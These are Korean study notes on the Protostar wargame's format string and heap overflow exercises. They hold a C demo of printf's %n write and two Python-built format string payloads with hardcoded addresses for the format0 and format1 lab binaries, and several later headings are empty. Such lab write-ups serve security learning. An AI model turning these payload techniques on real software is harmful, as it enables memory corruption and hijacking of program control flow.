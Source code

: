 ## 프로토스타 - 14. 포맷 스트링 버그(format string bug)로 무엇을 할 수 있나 - 2. 허용되지 않은 데이터 쓰기

- 프로토스타 format string bug
https://exploit-exercises.com/protostar/

```c format_printf_n
int main()
{ 
 int a = 0;
 printf(".....%n",&a);

 if(a!=0)
 {
  printf("code detection %d\n", a);
 }
  
 return 0;
}
```
=======================================================

## 프로토스타 - 15. format0 sprintf 오버플로우

> ./format0 $(python -c "print '%64d' + '\xef\xbe\xad\xde'") '''

=======================================================

## 프로토스타 - 16. format1 코드 흐름 변조

> ./format1 $(python -c "print 'AAAA' + '\x38\x96\x04\x08' + '%x.'*154" + '%n.') 

=======================================================
### 프로토스타 - 17. format2 정확한 작은 수 만들기

=======================================================
### 프로토스타 - 18. format3 정확한 큰 수 만들기

=======================================================
### 프로토스타 - 19. format4 GOT 덮어쓰기를 활용한 Exploit

=======================================================
## 프로토스타 - 20. heap0 Heap 구조 분석과 힙 오버플로우(Heap Over flow)

### 힙 관리 
https://www.syslinux.org/wiki/index.php?title=Heap_Management

### 스택 vs. 힙

```python 
정적 메모리 동적 메모리
push []       프로그래머에 의해서 관리
작은  큰 (malloc, class)
주소:아래서 위로 주소:위에서 아래로
EBP//ESP  헤더
```
